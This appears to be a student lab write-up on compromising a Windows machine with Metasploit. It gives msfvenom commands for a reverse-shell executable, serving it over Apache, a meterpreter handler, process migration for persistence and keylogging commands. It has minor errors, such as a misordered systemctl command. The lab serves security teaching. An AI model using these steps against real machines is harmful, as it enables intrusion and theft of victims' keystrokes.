 # EX 6: Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![240485931-d9b9e488-6580-4969-a3d2-5061443c0ed1](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/738403cb-ddf8-4e5f-af5b-50f6531673bc)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![240482360-12b58fda-5cec-4e47-872b-b838ef920d46](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/57c1fa09-ae80-401b-8422-41213b252aee)




copy the fun.exe into the apache /var/www/html folder
![240482762-37d7e507-5d47-4ddb-ba93-586f6d73a51b](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/379bf937-8d1d-47ca-9ca3-9dc95c1c0db5)


Start apache server
sudo systemctl apache2 start

![240482920-0d0224f9-d80c-42b9-a3ab-09b48da66a27](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/2a8aefe2-4668-467c-a3af-57a346f5d9da)



Check the status of apache2
![240483068-77516604-9c4f-4317-a188-c41de4625542](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/e9323521-d25e-4418-a86b-66c9d872a4dd)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![240483481-938f78c9-0e8a-42ef-847c-a7cee7393beb](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/08007393-8ae5-4095-a288-688b21b6654c)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![240483850-4cf82361-ac00-46ab-92a2-3f09592d98d5](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/a5afa68b-3991-4c94-a8d2-2f4c22bb656d)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![240484009-fee0700e-bafd-4e76-af72-f5ac23a5d6ba](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/6803b629-2f0b-46b6-a1b1-37333b5fa25e)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![240486096-b2d36ca1-64a2-4863-a648-4ef4a8727dd9](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/c379f00d-1be8-4a25-8342-25ff9208cb8d)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![240485311-85fb473c-59fe-4042-b163-552fddc735d1](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/b245228d-be3b-418f-8a4d-f0aeb3277dd1)



keyscan_dump	Shows the keystrokes captured so far
![240485244-785ef849-9095-4065-b38a-54b544a0c440](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/bd229a9d-ec46-4590-a561-d81cca631f57)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

